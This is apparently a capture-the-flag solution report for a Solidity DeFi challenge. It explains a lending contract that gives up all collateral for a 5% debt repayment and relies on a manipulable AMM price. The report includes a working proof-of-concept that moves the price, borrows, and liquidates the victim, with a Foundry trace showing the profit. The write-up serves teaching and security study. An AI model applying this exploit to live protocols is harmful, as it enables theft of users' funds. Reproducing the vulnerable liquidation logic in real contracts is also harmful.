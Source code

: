 # Challenge 8: Liquidatoooor - Solution Report

## Problem Overview

### Contract Summary

The challenge involves two main contracts:

1. `Oiler.sol`: A lending protocol that allows users to deposit TOKEN as collateral and borrow dTOKEN. Key functions include:

   - `deposit()`: Deposit TOKEN as collateral
   - `borrow()`: Borrow dTOKEN against deposited collateral
   - `healthFactor()`: Calculate user's position health
   - `liquidate()`: Liquidate undercollateralized positions

2. `AMM.sol`: A constant product Automated Market Maker for TOKEN/DAI pair. Key functions include:
   - `swap()`: Swap between TOKEN and DAI
   - `addLiquidity()`: Add liquidity to the pool
   - `getPriceToken0()`: Get the price of TOKEN in terms of DAI

### Initial Setup

- Player starts with 100 TOKEN and 100 DAI
- Superman (victim) starts with 200 TOKEN and 200 DAI
- Superman adds 100 TOKEN and 100 DAI as liquidity to the AMM
- Superman deposits 100 TOKEN as collateral in Oiler and borrows 75 dTOKEN

### Success Criteria

To solve the challenge, the player must:

- Liquidate Superman's position
- End up with more than 200 TOKEN

## Vulnerability

The main vulnerability in this challenge lies in the `Oiler.sol` contract, specifically in the `liquidate()` function:

```solidity
function liquidate(address _user) public {
    uint256 positionHealth = healthFactor(_user) / 10 ** 18;
    require(positionHealth < LIQUIDATION_THRESHOLD, "Liquidate: User not underwater");
    uint256 repayment = users[_user].borrow * 5 / 100;
    _burn(msg.sender, repayment);
    users[_user].borrow -= repayment;
    uint256 totalCollateralAmount = users[_user].collateral;
    token.transfer(msg.sender, totalCollateralAmount);
    users[_user].collateral = 0;
    users[_user].liquidated = true;

    emit Liquidated(msg.sender, _user, repayment);
}
```

The vulnerability stems from two key issues:

1. Disproportionate Liquidation: The function allows the liquidator to seize all of the user's collateral (`totalCollateralAmount`) while only repaying a small portion (5%) of the user's debt. This creates a significant imbalance that can be exploited for profit.

2. Price Manipulation Susceptibility: The `healthFactor()` function relies on the current token price from the AMM to determine if a position is liquidatable. This makes the system vulnerable to price manipulation attacks, where an attacker can temporarily influence the price to trigger liquidations.

These vulnerabilities, combined with the simplistic price oracle (AMM) implementation, create an opportunity for an attacker to manipulate the market price, force a user's position below the liquidation threshold, and then liquidate the position for a substantial profit.

## Attack Process

The attack exploits the vulnerabilities in the `Oiler.sol` contract and the price manipulation susceptibility of the system. The process involves the following steps:

1. Price Manipulation:

   - The attacker swaps a small amount of TOKEN for DAI in the AMM.
   - This action decreases the price of TOKEN relative to DAI.
   - The reduced TOKEN price lowers the value of Superman's collateral in the Oiler contract.

2. Health Factor Reduction:

   - The price manipulation causes Superman's health factor to fall below the liquidation threshold (1.00).
   - This makes Superman's position eligible for liquidation.

3. Preparation for Liquidation:

   - The attacker calculates the amount of dTOKEN needed to repay 5% of Superman's debt.
   - The attacker deposits just enough TOKEN as collateral in the Oiler contract to borrow this amount of dTOKEN.

4. Borrowing dTOKEN:

   - The attacker borrows the calculated amount of dTOKEN from the Oiler contract.

5. Liquidation:

   - The attacker calls the `liquidate()` function on Superman's position.
   - This burns the borrowed dTOKEN to repay 5% of Superman's debt.
   - In return, the attacker receives all of Superman's collateral (100 TOKEN).

6. Collateral Withdrawal:

   - The attacker withdraws their remaining collateral from the Oiler contract.

7. Token Conversion:
   - The attacker swaps any remaining DAI for TOKEN in the AMM to maximize TOKEN holdings.

The result of this process is that the attacker ends up with significantly more TOKEN than they started with, having liquidated Superman's position by exploiting the vulnerabilities in the system.

## Proof of Concept (PoC)

This section demonstrates the practical implementation of the attack process described earlier.

### Core Implementation

```solidity
// 1. Approve tokens for AMM and Oiler
token.approve(address(amm), type(uint256).max);
dai.approve(address(amm), type(uint256).max);
token.approve(address(oiler), type(uint256).max);

// 2. Swap token in AMM to manipulate price
uint256 swapAmount = 1; // Swap 1 token
amm.swap(address(token), swapAmount);

// 3. Calculate borrow amount (slightly more than 5% of Superman's borrow)
Oiler.User memory supermanData = oiler.getUserData(superman);
uint256 borrowAmount = (supermanData.borrow * 6) / 100; // 6% to be safe

// 4. Calculate and deposit the exact amount of collateral needed
uint256 tokenPrice = oiler.getPriceToken();
uint256 collateralFactor = 75; // CF from Oiler contract
uint256 depositAmount = (borrowAmount * 1e20) / (tokenPrice * collateralFactor);
// Add a small buffer to ensure we have enough collateral
depositAmount = (depositAmount * 102) / 100; // Add 2% buffer
oiler.deposit(depositAmount);

// 5. Borrow dTokens
oiler.borrow(borrowAmount);

// 6. Liquidate Superman's position
oiler.liquidate(superman);

// 7. Withdraw player's remaining dTokens
uint256 playerdToken = oiler.balanceOf(player);
oiler.withdraw(playerdToken);

// 8. Swap dai for token in AMM
uint256 daiBalance = dai.balanceOf(player);
amm.swap(address(dai), daiBalance);
```

### Running Result

```
Ran 1 test for test/Challenge8.t.sol:Challenge8Test
[PASS] testSolution() (gas: 388969)
Logs:
  Initial token balance:  100
  Initial dai balance:  100
  Final token balance:  245
  Final dai balance:  0

Traces:
  [458269] Challenge8Test::testSolution()
    ├─ [0] VM::startPrank(Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729])
    │   └─ ← [Return]
    ├─ [24628] TKN::approve(oiler: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], 100)
    │   ├─ emit Approval(owner: Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729], spender: oiler: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], value: 100)
    │   └─ ← [Return] true
    ├─ [56828] oiler::deposit(100)
    │   ├─ [32522] TKN::transferFrom(Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729], oiler: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], 100)
    │   │   ├─ emit Approval(owner: Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729], spender: oiler: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], value: 0)
    │   │   ├─ emit Transfer(from: Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729], to: oiler: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], value: 100)
    │   │   └─ ← [Return] true
    │   ├─ emit Deposited(depositor: Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729], collateralAmount: 100)
    │   └─ ← [Stop]

...

    ├─ [562] TKN::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 245
    ├─ [0] console::log("Final token balance: ", 245) [staticcall]
    │   └─ ← [Stop]
    ├─ [562] DAI::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] console::log("Final dai balance: ", 0) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [1167] oiler::getUserData(Super-man: [0x7E51597D2eB2a2a91e8894dB4a962692252f9729]) [staticcall]
    │   └─ ← [Return] User({ collateral: 0, borrow: 72, liquidated: true })
    ├─ [562] TKN::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 245
    └─ ← [Stop]
```
